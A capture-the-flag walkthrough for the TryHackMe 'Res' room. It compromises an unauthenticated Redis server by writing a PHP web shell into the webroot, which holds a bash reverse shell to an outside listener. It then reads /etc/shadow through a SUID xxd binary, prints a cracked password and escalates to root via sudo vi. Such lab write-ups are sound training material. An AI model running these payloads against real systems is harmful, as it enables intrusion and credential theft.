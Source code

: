 ```yaml
---

title: Walkthrough - Res
published: true
---
```


SGBD, Enumeration, RCE, Cracking. Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

![](/assets/redis01.png)

[https://tryhackme.com/room/res](https://tryhackme.com/room/res)

* * *

## Scan the machine, how many ports are open?

- ``nmap -Pn -sS -p- 10.10.17.249 -vvv ``
- ``nmap -sC -sV -sT -O -p80,6379 10.10.17.249``

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.1 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
```

* * * 

## What's is the database management system installed on the server?

- Redis

* * * 

## What port is the database management system running on?

- 6379

* * * 

## What's is the version of management system installed on the server?

- 6.0.7

* * * 

## Compromise the machine and locate user.txt

- ``redis-cli -h 10.10.17.249`` - to connect to the redis server
- ``info server`` looking here in the server info we find a working directory for redis... ``executable:/home/vianka/redis-stable/src/redis-server``
-  because we can see the users home directory we should be able to import a genetateed rsa key into redis and login to it there.

1. Generate public key ``ssh-keygen -t rsa -f rsa``
2. Write the public key to a file ``(echo -e "\n\n"; cat ./rsa.pub; echo -e "\n\n") > foo.txt``
3. Import the file into redis ``cat foo.txt | redis-cli -h 10.10.17.249 -x set crackit``
4. Save the public key to the authorized_keys file on the redis server
5. whelp this doesnt work... The .ssh directory doesnt seem to be accesssible

So trying some other things our I end up finding the web directory.

```
10.10.17.249:6379> config set dir /var/www/html
OK
10.10.17.249:6379> config set dbfilename redis.php
OK
10.10.17.249:6379> set test "<?php phpinfo(); ?>"
OK
10.10.17.249:6379> save
OK
```

do we can vidit this page now on the webserver. lets alter it do we can get a php reverse shell

```
10.10.131.125:6379> config set dir /var/www/html
OK
10.10.131.125:6379> config set dbfilename shell.php
OK
10.10.131.125:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.2.127.225/6666 0>&1'\"); ?>"
OK
10.10.131.125:6379> save
OK
```

and catch the reverse shell

```
┌──(0xskar㉿cocokali)-[~]
└─$ pwncat -l 10.2.127.225 6666
whoami
www-data
ls -las
total 24
 4 drwxrwxrwx 2 root   root    4096 Aug  9 13:49 .
 4 drwxr-xr-x 3 root   root    4096 Sep  2  2020 ..
12 -rw-r--r-- 1 root   root   11321 Sep  2  2020 index.html
 4 -rw-r--r-- 1 vianka vianka   179 Aug  9 13:49 shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ 
```

![](/assets/redis02.png)

* * * 

## What is the local user account password?

```
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
```

If ``xxd`` has the suid bit set we can read files with it.

- ``xxd /etc/shadow | xxd -r``
- ``unshadow`` this file and then hashcat
- ``hashcat -m 1800 creds.unshadow /usr/share/seclists/Passwords/rockyou.txt ``

```
Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:beautiful1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
```

* * * 

## Escalate privileges and obtain root.txt

- ``su vianka``

```
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Easy enough...

- ``sudo vi -c ':!/bin/sh' /dev/null``

![](/assets/res03.png)

* * * 


